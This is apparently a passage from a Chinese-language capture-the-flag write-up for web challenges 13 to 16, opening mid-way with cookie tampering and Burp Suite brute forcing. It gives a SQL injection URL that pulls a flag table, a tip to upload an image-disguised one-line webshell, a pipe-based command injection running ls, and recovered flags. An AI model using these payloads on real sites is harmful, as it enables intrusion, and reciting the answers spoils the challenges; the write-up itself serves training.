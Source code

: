 cookie 那边 user改成admin

guess 用burpsuite爆破一下

就出来最终结果


----

## Web 13

http://218.76.35.75:20101/?name=guest' union select (select flag from flag),2,3%23


-----

## Web14

上传个一句话木马图片即可

----

## Web15 

使用|绕过
127.0.0.1｜ls

可以得到
3f83e03a1e4e65573ef11cca25048808  css  footer.php  header.php  index.php

访问下http://218.76.35.75:20105/3f83e03a1e4e65573ef11cca25048808/得到flag



-----

## Web16

其实并没有看懂这题到底什么意思


 ```
   if (this.scores.length < this.maxscores) return 1000000 < a && (a = new 
   p, a.set('urlkey', 'webqwer'[1] + '100.js', 86400000)),
  ```

  js中有一个这样的代码

  获取对应文件

  http://218.76.35.74:65380/e100.js 

   可以得到一个js的混淆奇怪的代码
   在console中输入
   得到flag
   
   flag{oT0yTrjU0xhjhj2YTcT8jljMWpzS9tDk}
   
----
